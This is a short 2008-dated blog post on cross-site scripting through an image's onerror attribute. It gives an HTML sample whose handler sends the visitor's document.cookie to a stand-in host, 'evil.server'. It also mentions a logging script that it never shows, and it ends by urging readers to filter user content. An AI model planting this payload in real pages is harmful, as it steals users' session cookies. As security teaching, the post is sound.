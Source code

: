 ```yaml
---
title: XSS with Img OnError attribute
date: 2008-03-20
tag:
- javascript
- php
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

<!--more-->

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  That's right - this can be done - using the `onerror` attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the `onerror` attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
  <body>
    <h1>test</h1>
    <h2>asdf</h2>
    <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
  </body>
</html>
```

Then, on `evil.server`, place your image.  Finally, top it off with the following code in `exploit.php` to process the GET parameter.

Easy as that.  Just another reminder to properly filter your use submitted content.
